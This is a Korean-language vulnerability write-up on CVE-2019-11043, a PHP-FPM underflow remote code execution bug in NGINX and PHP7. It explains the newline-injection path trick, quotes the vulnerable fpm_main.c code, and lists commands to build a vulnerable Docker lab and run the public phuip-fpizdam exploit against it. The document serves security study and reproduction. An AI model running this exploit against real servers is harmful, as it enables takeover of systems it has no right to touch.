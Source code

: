 # PHP7 PHP-FPM UnderFlow RCE (CVE-2019-11043)
* Date : Oct 2019
* Credit : [Omar Ganiev](https://twitter.com/ahack_ru)
* CVSS : [9.8](https://nvd.nist.gov/vuln/detail/CVE-2019-11043)
* Affected Versions : NGINX + PHP version < 7.3.11 or < 7.2.24

## Root Cause Analysis
해당 취약점은 NGINX와 PHP7을 함께 구동하는 환경에서 트리거 할 수 있다. PHP-FPM(PHP FastCGI Process Manager)은 웹서버와 PHP를 연결해주며, PHP를 FastCGI 모드로 동작하도록 해준다. PHP-FPM을 지원하는 NGINX에서는 PHP-FPM의 원격코드실행 취약점이 발생한다. 취약점이 발생하는 근본적인 원인은 아래와 같은 정규식을 우회할 수 있다는 것이다.

### NGINX의 URL 분리
```
fastcgi_split_path_info ^(.+?\.php)(/.*)$;
```

path_info 변수에 값을 넣을 때, 위와 같은 정규표현식을 사용한다. 정규표현식에서 '.'에 해당하는 문자는 '\n'을 포함하지 않기 때문에 php-cgi의 PATH_INFO 변수로 들어가는 값에 '/x.php/a%0ab' 이런식으로 '\n' 문자를 넣어주면 정규표현식을 우회하여 PATH_INFO 환경변수에 아무값도 들어가지 않도록 만들 수 있다. 이는 PATH_INFO의 길이가 0으로 간주하도록 만든다.

### sapi/fpm/fpm/fpm_main.c 취약한 소스
```C
if (apache_was_here) {
                                /* recall that PATH_INFO won't exist */
                                path_info = script_path_translated + ptlen;
                                tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
                            } else {
                                path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
                                tflag = path_info && (orig_path_info != path_info);
                            }
```
위 코드에서 path_info에 pilen 값이 0으로 들어가면 path_info 포인터에 이상한 값이 들어가게 된다. 또한 PATH_INFO 값이 비어있는 것으로 간주하여 정상경로로 판단하고, 아래와 같은 FCGI_PUTENV가 호출되는 로직으로 들어간다.

### FCGI_PUTENV 함수의 호출
```C
if (orig_path_info) {
                                    char old;

                                    FCGI_PUTENV(request, "ORIG_PATH_INFO", orig_path_info);
                                    old = path_info[0];
                                    path_info[0] = 0;
                                    if (!orig_script_name ||
                                        strcmp(orig_script_name, env_path_info) != 0) {
                                        if (orig_script_name) {
                                            FCGI_PUTENV(request, "ORIG_SCRIPT_NAME", orig_script_name);
                                        }
                                        SG(request_info).request_uri = FCGI_PUTENV(request, "SCRIPT_NAME", env_path_info);
                                    } else {
                                        SG(request_info).request_uri = orig_script_name;
                                    }
                                    path_info[0] = old;
```

여기서 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, path_info[0] = 0를 하는 과정에서 pos에 0이 들어가면, Underflow가 발생한다. 그러면 PATH_INFO의 길이를 조절해서 원하는 위치에 원하는 데이터가 쓰여지도록 만들 수 있다.

## PoC Testing

### Docker 이미지를 활용한 PoC
```
$ git clone https://github.com/neex/phuip-fpizdam
$ cd reproducer

# docker build & run
$ docker build -t test1142 . ; docker run --rm -ti -p 9556:80 test1142
```
```bash
$ cd phuip-fpizdam
$ rm -rf go.mod go.sum
$ go build
./phuip-fpizdam
```
```
./phuip-fpizdam http://localhost:9556/script.php
```
### 실행 결과
![result](./img/result.png)

## Reference
- [Hahwul](https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/)
- [Emil Lerner](https://github.com/neex/phuip-fpizdam/blob/master/ZeroNights2019.pdf)
- [PHP bugs](https://bugs.php.net/bug.php?id=78599)

